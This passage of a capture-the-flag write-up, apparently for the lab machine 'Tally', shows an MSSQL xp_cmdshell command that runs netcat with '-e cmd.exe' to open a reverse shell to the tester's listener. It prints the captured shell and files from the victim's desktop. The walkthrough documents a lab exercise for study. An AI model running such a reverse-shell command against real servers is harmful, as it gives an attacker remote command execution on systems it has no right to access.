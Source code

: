 We can launch it after starting our listener:

```aaa
1> xp_cmdshell 'c:\users\sarah\downloads\nc.exe -e cmd.exe 10.10.14.37 9999'
2> go
```

And the connection is received:

```aaa
┌─[baud@parrot]─[~/tally]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.59] 51062
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
tally\sarah

C:\Windows\system32>
```

Sarah's desktop has the first flag. It also has another text file, a draft of a message for Tim:

```aaa
c:\Users\Sarah\Desktop>more "note to tim (draft).txt"
more "note to tim (draft).txt"
Hi Tim,

As discussed in the cybersec meeting, malware is often hidden in trusted executables in order to evade detection. I read somewhere that cmd.exe is a common target for backdooring, so I've gone ahead and disallowed any cmd.exe outside the Windows folder from executing.

Thanks,
Sarah
```

And also a third text file:

```aaa
c:\Users\Sarah\Desktop>more todo.txt
more todo.txt
done:

install updates
check windows defender enabled

outstanding:

update intranet design
update server inventory
```aa

We also get a batch file:

```aaa
c:\Users\Sarah\Desktop>more browser.bat
more browser.bat

del C:\Users\Sarah\Desktop\session_id.txt

REM output current session information to file
qwinsta | findstr ">" > C:\Users\Sarah\Desktop\session_id.txt

REM query file for session id
FOR /F "tokens=3" %%a IN (C:\Users\Sarah\Desktop\session_id.txt) DO SET sessionid=%%a
```